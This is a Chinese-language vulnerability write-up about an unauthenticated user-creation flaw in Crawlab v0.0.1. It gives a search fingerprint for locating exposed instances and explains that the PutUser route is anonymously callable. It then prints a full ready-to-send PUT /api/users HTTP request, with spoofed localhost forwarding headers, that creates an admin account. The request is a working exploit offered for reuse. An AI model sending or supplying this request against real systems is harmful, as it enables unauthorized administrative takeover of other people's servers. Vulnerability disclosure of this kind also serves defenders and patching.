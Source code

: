 # Crawlab users 任意用户添加漏洞

## 漏洞描述

Crawlab users 的 api 存在任意用户添加，且添加为未授权接口，可通过添加后在后台进一步攻击

## 漏洞影响

```
Crawlab v0.0.1
```

## 网络测绘

```
title="Crawlab"
```

## 漏洞复现

登录页面

![](images/202205241444454.png)

首先查看路由位置 main.go 文件

![](images/202205241444511.png)

```
anonymousGrou 中为匿名可调用方法
authGroup	  中为认证可调用方法
```

可以看到 Putuser方法为添加用户，但存在匿名调用

![](images/202205241444706.png)

根据字段生成添加用户的请求

```
PUT /api/users HTTP/1.1
Host: 
Content-Length: 83
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: Hm_lvt_c35e3a563a06caee2524902c81975add=1639222117,1639278935; Hm_lpvt_c35e3a563a06caee2524902c81975add=1639278935
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

{"username":"testppp","password":"testppp","role":"admin","email":"testppp@qq.com"}
```

![](images/202205241444367.png)

![](images/202205241444319.png)